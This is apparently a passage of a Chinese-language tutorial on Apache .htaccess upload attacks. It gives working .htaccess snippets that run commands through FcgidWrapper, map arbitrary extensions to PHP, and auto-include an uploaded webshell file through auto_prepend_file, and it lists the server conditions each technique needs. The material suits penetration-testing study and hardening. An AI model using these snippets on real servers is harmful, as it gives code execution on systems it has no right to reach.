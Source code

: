 linux下的.htaccess:

```
Options +ExecCGI
AddHandler fcgid-script .abc
FcgidWrapper "whoami" .abc
```

上传.htaccess文件后，在随意上传一个.abc，内容无所谓。

解说：老样子，如果默认就开启了ExecCGI，则第一句可以省略。

第二句表示，abc后缀名的文件需要被fcgi来解析。AddHandler还可以换成AddType。

利用条件：

- AllowOverride all或AllowOverride Options FileInfo。
- 2.mod_fcgid.so被加载。即apache配置文件中有LoadModule fcgid_module modules/mod_fcgid.so
- 有目录的上传、写入权限。

#### 2) AddType指定后缀文件解析类型

> pwd:htaccess/2.2/.htaccess

```
AddType application/x-httpd-php .a
```

解说：将所有文件后缀为.a的文件解析为php

#### 3) php_value

这种方式可通过`php_value`来配置PHP的配置选项；另外`php_flag name on|off`用来设定布尔值的配置指令

.htaccess可以使两种配置模式生效：`PHP_INI_PREDIR`和`PHP_INI_ALL`

[php.ini配置选项列表](https://www.php.net/manual/zh/ini.list.php)查看可以用配置项

**1. 文件包含**

> pwd:htaccess/2.3.1/.htaccess

> - `auto_prepend_file`：指定一个文件，在主文件解析之前自动解析
> - `auto_append_file`：指定一个文件，在主文件解析后自动解析

编辑.htaccess为：

```
AddType application/x-httpd-php .a
php_value auto_prepend_file webshell.a
```

或：

```
AddType application/x-httpd-php .a
php_value auto_append_file webshell.a
```

上传webshell文件为:

```
<?=phpinfo();
```
